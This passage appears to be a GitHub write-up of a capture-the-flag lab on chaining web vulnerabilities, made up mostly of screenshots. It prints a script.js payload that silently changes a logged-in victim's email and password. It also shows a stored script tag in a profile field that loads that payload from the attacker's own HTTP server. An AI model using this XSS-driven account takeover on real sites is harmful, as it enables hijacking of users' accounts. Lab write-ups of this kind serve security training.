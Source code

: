 By chaining these together, you've taken what could have been minor issues in isolation and used them to achieve full compromise.</p>

<p><em>Answer the questions below</em></p>

<h6 align="center"><img width="900px" src="https://github.com/user-attachments/assets/18d1d149-c82b-4ae0-a88c-43493fcc0c88"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/18d1d149-c82b-4ae0-a88c-43493fcc0c88"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/313a03d3-6f3d-44ab-9411-f7210f916a1e"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/3bf2acfc-a563-4cb3-a64e-4e8980175326"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/01042482-efab-4464-8f65-22ad1e4818a1"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/fb2dac7b-d6eb-4df3-b464-5751ff27dbca"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/86aeda57-6034-4a91-a111-3567c3016ddf"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/1ed11117-5240-4034-b644-9d4b6c7f0a6d"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/5c85c167-a472-45a4-ba9b-ecdcc5f3cf12"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/47c6bdda-c6e6-411f-af5b-7bcbce6a15c6"><br><br>
                   <img width="900px" src="https://github.com/user-attachments/assets/704702db-9662-48a8-a7a5-a50d68bab42e"><br></h6><br>

<p align="center"><em>script.js</em></p>

```bash
fetch('/update_email.php', {
  method: 'POST',
  credentials: 'include',
  headers: {'Content-Type':'application/x-www-form-urlencoded'},
  body: 'email=attacker@thm.local&password=password123'
});
```

<h6 align="center">Log in as attacker@thm.local<br><img width="900px" src="https://github.com/user-attachments/assets/32bf5369-1c85-4e94-8b85-0cb50430e5f8"><br></h6><br>

<p>
  
- <code>Edit Profile</code><br>
- <script src="http://xx.xxx.xx.xx:8000/script.js"></script></p>

```bash
:~/ChainingVulnerabilities# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```


<h6 align="center"><code>Edit Profile</code><img width="900px" src="https://github.com/user-attachments/assets/a320d80a-389f-4e64-928c-177ae82ea008"><br><br>
                                            <img width="900px" src="https://github.com/user-attachments/assets/a985d973-6ec7-424b-9ad7-9fdebfc9ee3e"><br><br>
                                            <img width="900px" src="https://github.com/user-attachments/assets/7def0255-c770-48fd-a733-8f8a80b57590"><br><br>
                                            <img width="900px" src="https://github.com/user-attachments/assets/e8bf2d4c-092b-493a-9dfa-a0ebeae18030"><br><br>
                                            <img width="900px" src="https://github.com/user-attachments/assets/766009c9-2913-463d-a9cd-468cd865a1a6"><br></h6><br>
